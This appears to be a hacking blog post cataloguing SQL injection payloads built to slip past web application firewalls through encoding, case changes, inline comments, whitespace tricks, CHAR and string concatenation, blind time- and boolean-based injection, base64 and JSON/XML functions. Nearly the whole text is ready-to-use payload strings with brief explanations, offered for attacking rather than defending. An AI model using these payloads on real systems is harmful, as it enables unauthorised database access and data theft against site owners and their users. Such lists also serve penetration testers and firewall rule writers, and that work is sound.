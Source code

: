 ```yaml
---
title: "WAF Bypass Techniques for SQL Injection"
tags: ['Hacking', 'SQL Injection', 'WAF']
date: 2024-10-03
toc: true
unlisted: true
author: 'Ren'
authorlink: 'https://about.0x0060.dev/'
---
```


## WAF Bypass Techniques for SQL Injection

Below are various methods to bypass WAFs and execute SQL injection attacks. Each technique takes advantage of different obfuscation, encoding, and manipulation strategies to evade detection.

### 1. Using Encoding and Obfuscation

#### URL Encoding

```  
%27%20UNION%20SELECT%20NULL,NULL,NULL--  
```

Encode parts of the payload to bypass basic keyword detection mechanisms used by WAFs.

#### Double URL Encoding

```  
%2527%2520UNION%2520SELECT%2520NULL,NULL,NULL--  
```

Double encode the payload to evade more sophisticated detection mechanisms.

#### Hex Encoding

```  
' UNION SELECT 0x61646D696E, 0x70617373776F7264 --  
```

Use hexadecimal encoding for the payload to obscure the SQL commands.

### 2. Case Manipulation and Comments

#### Mixed Case

```  
' uNioN SeLecT NULL, NULL --  
```

Change the case of SQL keywords to avoid case-sensitive filters.

#### Inline Comments

```  
' UNION/**/SELECT/**/NULL,NULL --  
```

Insert comments within SQL keywords to break up recognizable patterns.

### 3. Whitespace and Special Characters

#### Using Different Whitespace Characters

```  
' UNION%0D%0ASELECT%0D%0A NULL,NULL --  
```

Replace spaces with other whitespace characters like tabs or newlines to confuse simple string-matching filters.

#### Concatenation with Special Characters

```  
' UNION SELECT CHAR(117)||CHAR(115)||CHAR(101)||CHAR(114), CHAR(112)||CHAR(97)||CHAR(115)||CHAR(115) --  
```

Use special characters and concatenation functions to dynamically build the payload.

### 4. SQL Function and Command Obfuscation

#### String Concatenation

```  
' UNION SELECT 'ad'||'min', 'pa'||'ss' --  
```

Break strings into smaller parts and concatenate them to obscure the payload.

#### Using SQL Functions

```  
' UNION SELECT VERSION(), DATABASE() --  
```

Leverage SQL functions to manipulate and obfuscate the payload.

### 5. Time-Based and Boolean-Based Payloads

#### Time-Based Blind SQL Injection

```  
' AND IF(1=1, SLEEP(5), 0) --  
```

Use time delays to infer information based on the response time.

#### Boolean-Based Blind SQL Injection

```  
' AND IF(1=1, 'A', 'B')='A' --  
```

Use conditional statements to alter the response based on true or false conditions.

### 6. Advanced Encoding Techniques

#### Base64 Encoding

```  
' UNION SELECT FROM_BASE64('c2VsZWN0IHZlcnNpb24oKQ==') --  
```

Encode payloads using Base64 to bypass content filters.

#### Custom Encoding Scripts

Develop custom scripts to encode and decode payloads in different formats to evade detection.

### 7. Chaining Techniques

#### Combining Multiple Bypass Techniques

```  
%27%20UNION/**/SELECT/**/CHAR(117)%7C%7CCHAR(115)%7C%7CCHAR(101)%7C%7CCHAR(114),%20CHAR(112)%7C%7CCHAR(97)%7C%7CCHAR(115)%7C%7CCHAR(115)%20--%0A  
```

Combine various techniques to create more complex and harder-to-detect payloads.

### 8. Leveraging Lesser-Known SQL Features

#### Using JSON Functions

```  
' UNION SELECT json_extract(column_name, '$.key') FROM table_name --  
```

Leverage JSON functions to manipulate and extract data in a more complex manner.

#### Using XML Functions

```  
' UNION SELECT extractvalue(1, 'version()') --  
```

Utilize XML functions to construct more sophisticated payloads.